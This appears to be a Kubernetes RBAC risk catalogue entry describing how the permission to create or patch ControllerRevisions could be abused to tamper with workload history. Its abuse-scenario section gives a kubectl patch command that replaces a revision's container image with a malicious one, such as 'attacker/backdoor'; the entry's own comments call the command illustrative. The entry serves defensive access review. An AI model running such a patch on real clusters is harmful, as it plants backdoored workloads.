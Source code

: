 ```yaml
---
id: 1085
title: "Create/Update ControllerRevisions (Potential Tampering)"
description: "Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field         | Value                                                                                             |
| ------------- | ------------------------------------------------------------------------------------------------- |
| ID            | 1085                                                                                              |
| Name          | Create/Update ControllerRevisions (Potential Tampering)                                           |
| Risk Category | Tampering                                                                                         |
| Risk Level    | {{< risk Medium >}}                                                                               |
| Role Type     | Role                                                                                              |
| API Groups    | apps                                                                                              |
| Resources     | controllerrevisions                                                                               |
| Verbs         | create, update, patch                                                                             |
| Tags          | {{< tag "ControllerRevisionTampering" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes.

## Abuse Scenarios

1. Create a new ControllerRevision with a malicious image or command.

```bash {copy=true}
# This is complex as ControllerRevisions are usually managed by controllers.
# Direct creation/patching is not common and requires careful crafting of the 'data' field.
# Example: Create a new revision for a deployment, pointing to a malicious image.
# This would typically be done by modifying the Deployment/StatefulSet itself.
# A direct kubectl command to create a *malicious* ControllerRevision is not practical.
# Instead, focus on the ability to manipulate existing ones.
# To demonstrate, one might try to patch an existing revision's data (which is base64 encoded).
# This is highly advanced and not a simple kubectl command.
# Let's provide a generic patch example, noting the complexity.
kubectl patch controllerrevision <revision-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "<malicious-image>"}]'
# Note: The 'data' field in ControllerRevision is base64 encoded. This command is illustrative.
# Example: kubectl patch controllerrevision my-app-deployment-12345 -n default --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "attacker/backdoor"}]'

```
